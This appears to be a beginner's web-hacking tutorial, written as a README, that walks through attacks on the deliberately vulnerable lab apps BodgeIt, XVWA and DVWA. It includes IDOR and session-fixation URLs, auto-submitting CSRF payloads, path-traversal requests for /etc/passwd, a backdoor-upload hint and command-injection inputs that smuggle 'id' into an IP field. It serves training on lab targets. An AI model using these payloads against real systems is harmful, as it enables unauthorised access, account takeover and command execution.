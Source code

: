 # Web hacking for Lo Teks

You will only need :
1. [Burp Suite Community Edition_](https://portswigger.net/burp/communitydownload) - choose "*Download plain JAR file*"
2. Optional for your comfort - a plugin to switch proxy setting for your browser, like **FoxyProxy** for [Chrome](https://chrome.google.com/webstore/detail/foxyproxy-standard/gcknhkkoolaabfmlnjonogaaifnjlfnp) or [Firefox](https://addons.mozilla.org/sk/firefox/addon/foxyproxy-standard/)

Now you need to read [this](http://www.phrack.org/issues/7/3.html) and start your `BurpSuite`

`java -jar burpsuite_community_v1.7.36.jar`

List of apps to play with:
* [The BodgeIt Store](http://bodgeit.lab/bodgeit/)
* [Xtreme Vulnerable Web Application (XVWA)](http://xvwa.lab/xvwa/)
* [Damn Vulnerable Web Application (DVWA)](http://dvwa.lab/)


## Broken Access Control

With a little bit of *Insecure Direct Object References (IDOR)*

### BodgeIt Admin interface

If there is no **admin** section in the menu, it doesn't mean there is none.

but you can [guess](http://bodgeit.lab/bodgeit/admin.jsp)

`http://bodgeit.lab/bodgeit/admin.jsp`


### BodgeIt Debug Messages

Wish there was some magic switch to show some sensitive stuff.

No problem. Try something like [this])http://bodgeit.lab/bodgeit/basket.jsp?debug=true)

`http://bodgeit.lab/bodgeit/basket.jsp?debug=true`


### Client-side data validation

`Proxy > Options > Response Modification > Remove JavaScript form validation`

### I can see what you buy

1. Visit [BodgeIt basket](http://bodgeit.lab/bodgeit/basket.jsp)
2. Change your cookie `Cookie: b_id=3;`
3. Refresh the page

### Insecure Direct Object References (IDOR)

WAT? Lets have look [here](http://xvwa.lab/xvwa/vulnerabilities/idor/).

We only have a `Café au lait`

`http://xvwa.lab/xvwa/vulnerabilities/idor/?item=5`

But I want to order a `Caffé latte`

`http://xvwa.lab/xvwa/vulnerabilities/idor/?item=7`


### What if i change this ...

You can test it [here](http://xvwa.lab/xvwa/vulnerabilities/missfunc/).

If you can *view*

`http://xvwa.lab/xvwa/vulnerabilities/missfunc/?item=10&action=view`

maybe you can do more

`http://xvwa.lab/xvwa/vulnerabilities/missfunc/?item=10&action=delete`


## Broken Authentication and Session Management


### SESSIONID

What are all these random letters numbers? Well, they really are (should be) random ;]
But remember
> Keep It Hidden Keep It Safe

### Session fixation 

Easy as sending a [link](http://bodgeit.lab/bodgeit/login.jsp?JSESSIONID=0CE01A16F33AC52D89705BC9A088E0AF) to someone.

`http://bodgeit.lab/bodgeit/login.jsp?JSESSIONID=0CE01A16F33AC52D89705BC9A088E0AF`




## Cross-Site Request Forgery (CSRF)

[This](http://xvwa.lab/xvwa/vulnerabilities/csrf/) is how a bad idea looks like.

`http://xvwa.lab/xvwa/vulnerabilities/csrf/?passwd=heslo&confirm=heslo&submit=submit`


BodgeIt : leave feedback to change passwords

`<img src='http://bodgeit.lab/bodgeit/password.jsp?password1=heslo&password2=heslo'>`

```
<form action="http://bodgeit.lab/bodgeit/password.jsp" method="POST">
  <input type="hidden" name="password1" value="heslo" />
  <input type="hidden" name="password2" value="heslo" />
  <input type="submit" value="Submit request" />
</form>
<script>document.forms[0].submit();</script>

```

## Insecure Direct Object References (IDOR) - again...

Yes, it can be bad, check [this](http://xvwa.lab/xvwa/vulnerabilities/fi/)

You show me `readme.txt`

`http://xvwa.lab/xvwa/vulnerabilities/fi/?file=readme.txt`

but I want to see `/etc/passwd`

`http://xvwa.lab/xvwa/vulnerabilities/fi/?file=/etc/passwd`


Same as [here](http://dvwa.lab/vulnerabilities/fi/?page=include.php)

Oh no, a file include

`http://dvwa.lab/vulnerabilities/fi/?page=file1.php`

with a bonus

`http://dvwa.lab/vulnerabilities/fi/?page=file4.php`

but we want more!

`http://dvwa.lab/vulnerabilities/fi/?page=../../phpinfo.php`

``

Or you can upload your own backdoor using the [image upload](http://dvwa.lab/vulnerabilities/upload) and then access it 

`../../hackable/uploads/phpinfo.txt`



## Injection

Let's do some real **hacking**, I want a **shell**!

## Command Injection

Ok, [Let's go!](`http://dvwa.lab/dvwa/vulnerabilities/exec/`)

`http://dvwa.lab/dvwa/vulnerabilities/exec/`

or

`http://xvwa.lab/xvwa/vulnerabilities/cmdi/`

```
127.0.0.1;id
127.0.0.1&id
x||id
```

```
POST /dvwa/vulnerabilities/exec/ HTTP/1.1
Host: dvwa.lab
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dvwa.lab/dvwa/vulnerabilities/exec/
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: close
Cookie: security=high; PHPSESSID=1mdh1pt8dt42taesnorvlh9og2
Upgrade-Insecure-Requests: 1

ip=127.0.0.1%0d%0Aid&Submit=Submit
```